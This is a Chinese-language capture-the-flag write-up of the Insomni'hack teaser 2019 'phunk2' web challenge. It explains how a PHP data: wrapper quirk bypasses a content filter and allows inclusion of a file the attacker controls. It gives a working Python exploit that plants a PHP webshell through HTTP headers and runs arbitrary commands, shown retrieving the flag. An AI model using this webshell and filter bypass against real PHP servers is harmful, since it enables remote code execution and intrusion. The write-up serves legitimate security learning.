 ```yaml
---
uuid: 582cd6cc
title: Insomni'hack teaser 2019 - phunk2
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - Insomni'hack teaser 2019
date: 2019-01-31 00:00:00
updated: 2019-01-31 00:00:00
---
```


利用 wrapper 對字串解析的不同來成功 getshell

<!--more-->

# [正文]
題目一開始就給出 source code 和 [phpinfo.php](http://phuck.teaser.insomnihack.ch/phpinfo.php)!

{% codeblock source code lang:php http://phuck.teaser.insomnihack.ch/?hl http://phuck.teaser.insomnihack.ch/?hl line_number:true %}
stream_wrapper_unregister('php');
if(isset($_GET['hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);
{% endcodeblock %}

## Analysis
1. 先觀察 `phpinfo` 重要的兩項，`allow_url_include` 和 `allow_url_fopen`
    {% codeblock lang:plain line_number:false %}
    Directive           Local Value	    Master Value
    allow_url_fopen	    On	            On
    allow_url_include   Off	            Off`
    {% endcodeblock %}

2. 再來觀察 source code，首先可以發現 Wrapper `php://` 被關閉。
    {% codeblock lang:php line_number:true first_line:1 %}
    stream_wrapper_unregister('php');
    {% endcodeblock %}

3. `$mkdir` 的 `system` 有加入 `escapeshellarg($dir)` 基本上是死路。
    {% codeblock lang:php line_number:true first_line:4 mark:5 %}
    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };
    {% endcodeblock %}

4. 看起來可以透過 `$_SERVER['HTTP_X_FORWARDED_FOR']` 控制 `$userFolder`。再來會把 `$_SERVER` array 的內容都 dump 進 `$userFolder/profile` 裡面。
    {% codeblock lang:php line_number:true first_line:11 mark:4 %}
    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    {% endcodeblock %}

5. 看起來可以控制 `$_GET['page']`，不過 `allow_url_include` 被關閉了不能輕鬆地 LFI
    {% codeblock lang:php line_number:true first_line:18 mark:4 %}
    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }
    {% endcodeblock %}

6. 全部跑完後會把產生的所有東西都刪除。
    {% codeblock lang:php line_number:true first_line:23 mark:4 %}
    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);
    {% endcodeblock %}

## Get shell

`allow_url_fopen on, allow_url_include off`， data warper 會有以下性質
{% codeblock lang:php line_number:false %}
file_get_contents( 'data:,QAQ/profile' );
-> allow_url_fopen   on  => get 'QAQ/profile' file contents

include( 'data:,QAQ/profile' );
-> allow_url_include off => get 'data:,QAQ/profile' file contents
{% endcodeblock %}

透過前面的觀察，可以創建一個 `data:,aaaa/profile`，然後 `file_get_contents()` 會去嘗試得到 `aaaa/profile` 這個不存在的檔案的內容，成功 bypass，且 `include()` 會成功 include `data:,aaaa/profile`。至於檔案的內容 `print_r($_SERVER,true)`，可以透過傳送 http header 來送進去。

## payload

{% codeblock lang:python line_number:true %}
#!/usr/bin/env python3

import requests, sys

headers = {
    "X-Forwarded-For": "data:,QAQ",
    "Webshell": "<?php system('"+ sys.argv[1] +"'); ?>"
}

url = "http://phuck.teaser.insomnihack.ch"
payload = { "page": "data:,QAQ/profile" }
r = requests.get( url, headers=headers, params=payload )
print(r.text)
{% endcodeblock %}

{% codeblock lang:shell line_number:false %}
$ python payload.py 'ls /'
...
    [HTTP_WEBSHELL] => bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
...
$ python payload.py '/get_flag'
...
    [HTTP_WEBSHELL] => INS{PhP_UrL_Phuck3rY_h3h3!}
...
{% endcodeblock %}

FLAG: `INS{PhP_UrL_Phuck3rY_h3h3!}`
